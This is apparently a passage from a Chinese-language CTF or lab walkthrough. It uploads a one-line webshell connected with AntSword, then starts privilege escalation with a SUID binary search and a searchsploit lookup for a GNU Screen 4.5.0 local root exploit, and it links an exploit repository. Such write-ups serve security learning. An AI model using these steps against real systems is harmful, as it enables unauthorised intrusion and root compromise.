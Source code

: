 ![image-20210417142534754](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417142534754.png)

伪协议不能用的原因找到了

写个一句话上去用蚁剑连上

![image-20210417145151102](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417145151102.png)

接下来就是提权了

## 提权

```
(www-data:/) $ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

先看看这个screen-4.5.0

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit screen 4.5                                                                                      2 ⚙
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                      | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                | linux/local/41152.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
试了下这个exp不好用，在github上重新找了个

> https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files
